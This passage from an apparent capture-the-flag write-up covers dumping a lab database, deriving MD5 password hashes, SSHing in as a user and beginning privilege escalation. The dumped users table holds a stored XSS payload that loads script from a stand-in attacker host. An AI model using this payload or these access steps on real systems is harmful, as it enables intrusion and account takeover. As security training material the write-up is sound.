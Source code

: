 But a PHP script worked (probably because of the server name specified, as docker containers can use container name as an IP address to reach one another in the network). Running the PHP script dumps the database content.
```sql
--- Dumping table: users ---
CREATE TABLE `users` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` text NOT NULL,
  `password` text NOT NULL,
  `group` text NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`) USING HASH
) ENGINE=InnoDB AUTO_INCREMENT=4 DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_uca1400_ai_ci;
INSERT INTO `users` VALUES ('1','admin','ADMIN_HASH','admin');
INSERT INTO `users` VALUES ('2','rgiskard','PASS_HASH','nologin');
INSERT INTO `users` VALUES ('3','<script src=\'http://ATTACKER_IP/f/script.js\'></script>','07fafdde887aaf620583d610d3bbbf83','guest');
```

## SSHing as rgiskard
The MD5 hash generated doesn't look like the one used to login. I used cyberchef to check what has changed. Putting the original hash creates a double hash which looks similar to the one in the database. ![Alt text](./assets/cyberchef_res.png)
Following this logic, we can guess, the other users hash used to get the final hash. I used the `main.go` script and found a match with the `rgiskard` user.

## Escalating to dolivaw
I got a shell using the original hash of rgiskard which is generated using MD5(username+DDMM). After getting a shell and issuing `sudo -l`, we get ![Alt text](./assets/rgiskard.png)
